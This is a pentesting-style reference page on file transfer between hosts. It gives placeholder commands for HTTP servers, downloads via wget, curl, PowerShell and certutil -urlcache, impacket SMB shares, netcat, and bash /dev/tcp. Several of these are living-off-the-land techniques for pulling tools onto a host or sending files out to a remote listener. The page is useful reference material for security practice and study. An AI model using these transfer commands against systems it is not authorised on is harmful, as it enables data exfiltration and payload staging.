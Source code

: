 ```yaml
---
layout:
  width: wide
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: false
---
```


# File Transfer

## Integrity verification

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```sh
md5sum <file>
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```sh
certutil -hashfile <file> md5
```
{% endcode %}
{% endtab %}
{% endtabs %}

## HTTP

### HTTP Server

{% tabs %}
{% tab title="Python3" %}
```sh
python3 -m http.server <port>
```
{% endtab %}

{% tab title="Python2" %}
```sh
python2 -m SimpleHTTPServer <port>
```
{% endtab %}

{% tab title="PHP" %}
```sh
php -S 0:<port>
```
{% endtab %}
{% endtabs %}

### Download

{% tabs %}
{% tab title="Wget" %}
{% code overflow="wrap" %}
```bash
wget <url>
```
{% endcode %}
{% endtab %}

{% tab title="Curl" %}
{% code overflow="wrap" %}
```bash
curl -s <url> -o <out_file>
```
{% endcode %}
{% endtab %}

{% tab title="PowerShell" %}
{% code overflow="wrap" %}
```powershell
(New-Object Net.WebClient).DownloadString('<url>') > <out_file>
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
Invoke-WebRequest <url> -o <out_file>
```
{% endcode %}
{% endtab %}

{% tab title="CMD" %}
{% code overflow="wrap" %}
```sh
certutil -urlcache -split -f <url> <out_file>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## SMB

### SMB Server

```sh
smbserver.py <share_name> <share_path> -smb2support [-username <out_file> -password <out_file>]
```

### Download

{% tabs %}
{% tab title="Linux" %}
{% code overflow="wrap" %}
```sh
smbclient -U '<user>[%<password>]' //<ip>/<share> -c "get <src_file> <out_file>"
```
{% endcode %}
{% endtab %}

{% tab title="Windows" %}
{% code overflow="wrap" %}
```sh
# mount smb Share to drive
net use z: \\<ip>\<share> [/user:$USERNAME $PASSWORD]
# copy from share
copy \\<ip>\<share>\<src_file> <out_file>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Netcat

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```sh
nc -nlvp <port> < <src_file>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```sh
nc <ip> <port> > <out_file>
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Bash

{% tabs %}
{% tab title="Send" %}
{% code overflow="wrap" %}
```sh
cat <src_file> > /dev/tcp/<ip>/<port>
```
{% endcode %}
{% endtab %}

{% tab title="Recieve" %}
{% code overflow="wrap" %}
```sh
cat < /dev/tcp/<ip>/<port> > <out_file>
```
{% endcode %}
{% endtab %}
{% endtabs %}
